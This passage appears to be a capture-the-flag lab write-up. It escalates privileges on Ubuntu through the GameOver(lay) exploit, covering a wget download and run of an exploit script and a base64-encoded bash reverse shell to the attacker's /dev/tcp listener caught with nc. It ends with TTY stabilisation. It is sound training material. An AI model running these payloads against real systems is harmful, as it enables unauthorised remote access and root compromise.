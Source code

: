 ### GameOver(lay) Ubuntu Privilege Escalation
Just by searching the exploit for the aforementioned version, we can find that the version is vulnerable and we can escalate our privilege to root level. More about the exploit [here](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

```
www-data@webserver:…/html/uploads# wget http://10.10.14.37:8000/exploit.sh
--2024-04-12 12:01:47--  http://10.10.14.37:8000/exploit.sh
Connecting to 10.10.14.37:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 558 [text/x-sh]
Saving to: 'exploit.sh'

     0K                                                       100%  130M=0s

2024-04-12 12:01:47 (130 MB/s) - 'exploit.sh' saved [558/558]

www-data@webserver:…/html/uploads# chmod +x exploit.sh

www-data@webserver:…/html/uploads# ./exploit.sh
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned

www-data@webserver:…/html/uploads# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

i tried it on our webshell multiple times, but it didnt seem to work at all, thought it was a rabbit hole for second. But there not really any hints how to move further. Maybe it doesn't work on webshells,  therefore i tried spawning a revershell in our local machine.

``` 
# echo 'sh -i >& /dev/tcp/10.10.14.37/4444 0>&1' | base64          
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMzcvNDQ0NCAwPiYxCg==

```

```
www-data@webserver:…/html/uploads# echo 'c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMzcvNDQ0NCAwPiYxCg==' | base64 -d | bash
```

Normal reverse shell payload didn't seem to work so i tried encoding it with base64 and it worked! 

```
# nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.37] from (UNKNOWN) [10.10.11.241] 6520
sh: 0: can't access tty; job control turned off
$ 
```

Now stabilizing our revershell with `python`, 

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg**
```

